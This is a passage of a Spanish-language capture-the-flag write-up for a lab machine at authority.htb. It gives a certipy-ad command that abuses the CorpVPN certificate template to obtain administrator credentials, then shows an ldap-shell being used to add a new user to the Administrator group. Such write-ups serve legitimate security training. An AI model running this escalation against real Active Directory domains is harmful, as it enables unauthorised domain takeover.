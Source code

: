 ![[Pasted image 20240612115716.png]]

### crackmapexec
verificamos que hemos creado correctamente el usuario y la contraseña 

![[Pasted image 20240612115722.png]]
### certipy-ad
```python
certipy-ad req -username gamuke$ -password 'gamuke123' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb -debug

# NOTA: si tienes problemas con el reloj ejecutar> sudo ntpdate "IP-DC"

 ❯ sudo service virtualbox-guest-utils stop # este comando detiene el servicio virtualbox-guest-utils lo que nos permite modificar el reloj
 
 ❯ timedatectl set-ntp 0    # -------------> desactivar la sincronizacion de la maquina virtual con tu host
    
 ❯ sudo ntpdate 10.10.10.10 # -------------------> sincronizar la maquina con el DC
```

![[Pasted image 20240612115735.png]]

### -ldap-shell
de esta manera nos conectamos al servidor de active Directory con las credenciales en formato pfx que hemos conseguido y obtenemos una conexión ldap-shell
![[Pasted image 20240612115742.png]]

`creamos un usuario y lo agregamos al grupo Administrator`
de esta manera hemos creado un nuevo usuario que pertenece al grupo Administrator por lo cual tenemos permisos elevados
![[Pasted image 20240612115749.png]]

### WE ARE ROOT